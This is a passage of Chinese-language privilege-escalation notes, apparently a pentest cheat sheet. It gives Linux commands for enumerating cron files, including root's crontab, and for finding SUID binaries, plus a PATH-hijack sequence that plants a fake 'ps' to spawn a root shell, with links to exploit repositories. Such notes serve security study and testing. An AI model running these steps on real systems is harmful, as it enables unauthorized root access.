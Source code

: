 > [PowerUP](https://github.com/HarmJ0y/PowerUp/blob/master/PowerUp.ps1),[ElevateKit](https://github.com/rsmudge/ElevateKit)
>
> 

## Linux

#### 内核溢出提权

[linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

#### 计划任务

```ABAP
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

#### SUID

```ABAP
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

寻找可利用bin：https://gtfobins.github.io/

#### 环境变量

~~~
cd /tmp
echo “/bin/sh” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
~~~

[Linux环境变量提权 - 先知社区)](https://xz.aliyun.com/t/2767)

#### 系统服务的错误权限配置漏洞

